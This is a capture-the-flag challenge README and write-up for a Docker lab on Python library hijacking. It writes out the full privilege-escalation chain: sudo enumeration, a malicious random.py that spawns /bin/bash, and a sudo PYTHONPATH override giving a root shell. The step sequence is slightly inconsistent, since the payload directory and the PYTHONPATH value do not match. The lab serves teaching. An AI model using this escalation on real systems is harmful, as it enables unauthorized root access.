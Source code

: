 **Library Hijacking CTF Challenge**

**🏴 Challenge Overview**

Welcome to the **Library Hijacking CTF** challenge! This is a beginner-to-intermediate level machine-based CTF where the attacker needs to escalate privileges by exploiting a misconfigured Python script that runs with root privileges.

---

**🎯 Objective**

Your goal is to gain **root access** by exploiting a Python library hijacking vulnerability. You will connect to the machine using **SSH**, enumerate the system, and escalate privileges to obtain a root shell.

---

**🛠 Setup**

This challenge runs inside a **Docker container**. To deploy it, use the following commands:

```
docker pull e51am/ctf
docker run -dit --name library_hijacking_ctf -p 2222:22 e51am/ctf
```

Once the container is running, you can SSH into the machine using:

```
ssh ctfuser@localhost -p 2222
Password: password
```

---

**📌 Hints**

- Use `sudo -l` to check for **executable scripts with sudo privileges**.
- Find out which **libraries** the vulnerable script imports.
- Hijack the **imported library** to execute arbitrary code.

---

# Writeup

**🔍 Enumeration & Exploitation**

**1️⃣ Initial Access**

- The attacker discovers **credentials** for SSH login: **Username:** `ctfuser`**Password:** `password`
- Using the credentials, they connect via SSH:
    
    ```
    ssh ctfuser@localhost -p 2222
    ```
    

**2️⃣ Privilege Escalation - Enumerating sudo Permissions**

- Running the following command reveals a **sudo misconfiguration**:
    
    ```
    sudo -l
    ```
    or use linEnum.sh
  
- Output:
    
    ```
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/vulnerable_script.py
    ```
    
- This means `ctfuser` can set the environment and execute `vulnerable_script.py` **as root** without a password.


**4️⃣ Analyzing the Vulnerable Script**

- Checking the contents of `/opt/scripts/vulnerable_script.py`:**Output:**
    
    ```
    cat /opt/scripts/vulnerable_script.py
    
    ```
    
    ```
    import random
    choices = ["Rock", "Paper", "Scissors"]
    computer = random.choice(choices)
    player = False
    cpu_score = 0
    player_score = 0
    while True:
      player = input("Rock, Paper or  Scissors?").capitalize()
      ## Conditions of Rock,Paper and Scissors
      if player == computer:
          print("Tie!")
      elif player == "Rock":
          if computer == "Paper":
              print("You lose!", computer, "covers", player)
              cpu_score+=1
          else:
              print("You win!", player, "smashes", computer)
              player_score+=1
      elif player == "Paper":
          if computer == "Scissors":
              print("You lose!", computer, "cut", player)
              cpu_score+=1
          else:
              print("You win!", player, "covers", computer)
              player_score+=1
      elif player == "Scissors":
          if computer == "Rock":
              print("You lose...", computer, "smashes", player)
              cpu_score+=1
          else:
              print("You win!", player, "cut", computer)
              player_score+=1
      elif player=='End':
          print("Final Scores:")
          print(f"CPU:{cpu_score}")
          print(f"Plaer:{player_score}")
          break
    ```
    
- The script imports **random**, which we can **hijack**!

5️⃣ **Exploiting Library Hijacking**

- We create a **malicious version** of `random.py`:
    
    ```
    mkdir ~/hijack
    echo 'import os; os.system("/bin/bash")' > ~/hijack/random.py
    
    ```
    
- Set the `PYTHONPATH` to prioritize our malicious library:
    
    ```
    sudo PYTHONPATH=. /usr/bin/python3 /opt/scripts/vulnerable_script.py
    
    ```
    
- This spawns a **root shell**! 🎉

---

**🏆 Capture the Flag**

Once you gain root access, find the flag inside:

```
cat /root/flag.txt
```

---

**🚀 Conclusion**

This challenge teaches **privilege escalation via Python library hijacking**, a common misconfiguration found in real-world scenarios. Happy hacking! 🏴‍☠️

---

**📜 Disclaimer**

This challenge is for **educational purposes only**. Do not attempt these techniques on unauthorized systems!
